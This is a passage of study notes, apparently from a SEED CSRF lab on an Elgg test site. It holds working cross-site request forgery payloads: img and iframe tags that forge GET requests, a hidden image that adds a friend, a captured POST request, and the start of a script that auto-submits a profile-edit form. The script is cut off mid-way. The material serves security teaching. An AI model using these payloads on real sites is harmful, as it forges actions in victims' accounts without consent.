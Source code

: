 #### Target GET Service
```
http://www.example.com/transfer.php?to=3220&amount=500
```

#### Forge GET Request
```html
<img src="http://www.example.com/transfter.php?to=3220&amount=500">
<iframe src="http://www.example.com/transfter.php?to=3220&amount=500"></iframe>
```

### Attack GET Service
### Attack Page

```html
<html>
<body>
    <h1></h1>
    <img width=0 height=0 src="http://www.csrflabelgg.com/action/friends/add?friend=42">
</body>
</html>
```
Victim only needs to view the page

## 5.12 Attack on POST Service

### Edit-Profile POST Request

```
http://www.csrflabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: ...
Accept: ....
Accept-Language: ...
Referer: www.csrflabellgg.com/profile/samy/edit
Cookie: Elgg-mpasspvn1q67od11k19rkklema4
Content-Type: ...
Content-Length: ...
__elgg_token=1cc8v5c...&__elgg_ts=1489203659
&name=Sammy
&description=SAMMY+is+my+friend
&accesslevel%5Bdescrption%5D=2
...
&guid=42
```

### Attack POST Service
```html
<html><body>
<h1>This Page Forges and HTTP POST request</h1>
<script type="text/javascript">
    function forge_post(){
        let fields;
        fields +="<input type='hidden' name='name' value='Alice'>";
        fields +="<input type='hidden' name='description' value='Samy is my HERO'>";
        fields +="<input type='hidden' name='accesslevel[description]' value='2'>";
        fields +="<input type='hidden' name='guid' value='42'>";
        const p = document.createElement("form");
        p.action = "http://www.csrflabelgg.com/action/profile/edit";
        p.innerHTML = fields;
        p.method = "post";
        document.body.appendChild(p);
```